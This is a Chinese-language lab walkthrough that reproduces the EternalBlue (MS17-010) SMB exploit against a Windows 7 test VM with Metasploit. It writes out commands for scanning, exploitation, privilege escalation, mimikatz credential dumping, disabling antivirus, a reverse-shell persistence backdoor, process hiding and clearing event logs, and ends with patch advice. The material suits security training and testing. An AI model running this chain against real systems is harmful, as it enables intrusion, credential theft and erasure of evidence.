# 0x01 永恒之蓝Eternal blue（MS17-010）

2017年NSA（美国国家安全局）泄露的永恒之蓝漏洞，利用SMB协议造车缓冲区溢出，对目标进行远程控制。

相关的CVE：CVE-2017-0145、CVE-2017-0146、CVE-2017-0147、CVE-2017-0148

影响范围：

```
Windows 2016 x64
Windows 10 Pro Vuild 10240 x64
Windows 2012 R2 x64
Windows 8.1 x64
Windows 2008 R2 SP1 x64
Windows 7 SP1 x64
Windows 2008 SP1 x64
Windows 2003 R2 SP2 x64
Windows XP SP2 x64
Windows 8.1 x86
Windows 7 SP1 x86
Windows 2008 SP1 x86
Windows 2003 SP2 x86
Windows XP SP3 x86
Windows 2000 SP4 x86
```

# 0x02 漏洞复现

## 2.1 环境准备

* 靶机：Windows 7 SP1（IP：192.168.41.134）
* 攻击机：Kali Linux （IP：192.168.41.147）

## 2.2 漏洞检测

nmap 扫描

`nmap --script=vuln 192.168.41.134`



fscan扫描 

`fscan.exe -h 192.168.41.134`



msf扫描

`use auxiliary/scanner/smb/smb_ms17_010`



## 2.3 漏洞利用

```
# 打开msf控制台
msfconsole
# 搜索ms17-010模块
search  ms17-010
# 加载利用模块
use exploit/windows/smb/ms17_010_eternalblue
# 设置参数
set payload 
set rhosts 192.168.41.134
exploit
```



漏洞利用成功后出现`meterpreter`可以进行后渗透测试阶段

* 截屏 ` screenshot`



* 上传文件到靶机`upload <本地文件> <靶机目录>`



* 从靶机下载文件`download <目标文件或文件夹>`



* 打开远程桌面`run vnc`，只能远程查看，不能操作
* 获取shell `shell`进入靶机命令执行



* 提权`getsystem`，Windows账号权限从低到高是user-admin-systen



或者`use exploit/windows/local/bypassuac`之后再执行`getsystem`提权



直接getsystem提权失败，转用bypassuac尝试

```
bg # 返回上一层
use exploit/windows/local/bypassuac # 使用模块
set session 1 # 设置session ID
run 
getsystem # 再次提权
```




* 获取用户密码，kiwi（原mimkatz）在32位系统中可用，64位系统需进行进程迁移

  ```
  load kiwi # 比mimikatz更强大
  creds_all # 获取所有凭据
  kiwi_cmd sekurlsa::logonpasswords # 获取登录密码
  ```



* 进程迁移隐藏

```
ps # 查看所有进程
getpid # 查看当前进程ID
migrate <PID> # 手动迁移进程
run post/windows/manage/migrate # 自动迁移
```



* 权限维持

```
# Persistence模块（创建注册表启动）
run post/windows/manage/killav # 先关闭杀软
run exploit/windows/local/persistence lhost=192.168.41.147 lport=6666 payloads=windows/meterpreter/reverse_tcp delay=10 startup=SYSTEM
 # 创建一个持久性后门,落地文件容易被查杀
use exploit/multi/handler # 开启监听连接
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.41.147
set lport 6666
run
```



```
metsvc模块（创建服务），容易被查杀，且需要管理员权限
```





执行成功后重启靶机，Kali同步开启监听

```
use exploit/multi/handler
set payload windows/metsvc_bind_tcp  #  指定的木马模块
set RHOST 192.168.41.134   # 靶机IP
set LPORT 31337    # 靶机上监听的端口值31337
run
```

msfvenom生成后门文件上传到靶机执行，然后提权，进程迁移隐藏（进阶：MSF、CS免杀木马制作）





* 登录远程桌面

```
run post/windows/manage/enable_rdp
idletime # 查看远程用户空闲时间
rdesktop -u <用户名> -p <密码> 192.168.41.134 # 另打开一个命令行执行，不在MSF里，输入获取到的账号密码 
```





* 清楚日志`clearev`

清除前



清除后



# 0x03 修复方案

* 关闭445端口
* 打开防火墙，安装杀毒软件
* 安装修复补丁https://learn.microsoft.com/zh-cn/security-updates/securitybulletins/2017/ms17-010